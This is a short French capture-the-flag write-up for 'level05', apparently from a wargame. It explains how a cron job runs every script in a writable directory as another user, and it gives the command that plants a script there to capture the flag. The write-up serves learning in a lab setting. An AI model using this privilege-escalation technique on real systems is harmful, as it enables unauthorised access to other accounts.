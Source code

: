 # Rapport CTF - [level05]


### Observation:
Quand nous rentrons dans le niveau nous avons un message qui nous informe que nous avons un mail 
Nous allons donc essayer de les trouver avec la commande suivante: `find / -type d -name "mail" 2> /dev/null`

On trouve un exécutable à `/var/mail` qui se nomme `level05`

On comprend que c'est un exécutable qui exécute tout ce qu'il y a dans le fichier `openarenaserver`


### Code:
Nous ne pouvons pas l'exécuter, car nous n'avons pas les droits suffisants. \
Mais si on affiche sont contenu nous obtenons: 
```sh
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Nous pouvons voir que c'est une commande cron tab qui est exécuté toutes les 2 min et qui lance le programme `/usr/sbin/openarenaserver`

Si maintenant, nous regardons `cat /usr/sbin/openarenaserver`: 
``` bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
(ulimit -t 5; bash -x "$i")
rm -f "$i"
done
```

Ce programme exécute tous les fichier qui se trouvent dans le dossier `/opt/openarenaserver/` puis les supprimes.


### Solution :
Nous devons donc créer un exécutable qui se trouve dans `/opt/openarenaserver/`, qui vas utiliser `getflag` et l'envoyer dans un fichier texte pour pouvoir lire le mot de passe de level06  
On ajoute le code suivant : `echo "getflag > /tmp/resultat.txt" > /opt/openarenaserver/test.sh`

Puis on attend que le script cron tab exécute `test.sh` toutes les 2 minutes.

Il ne nous reste plus qu'à afficher `/tmp/resultat.txt` pour obtenir le mot de passe de level06 sans passer par le flag05

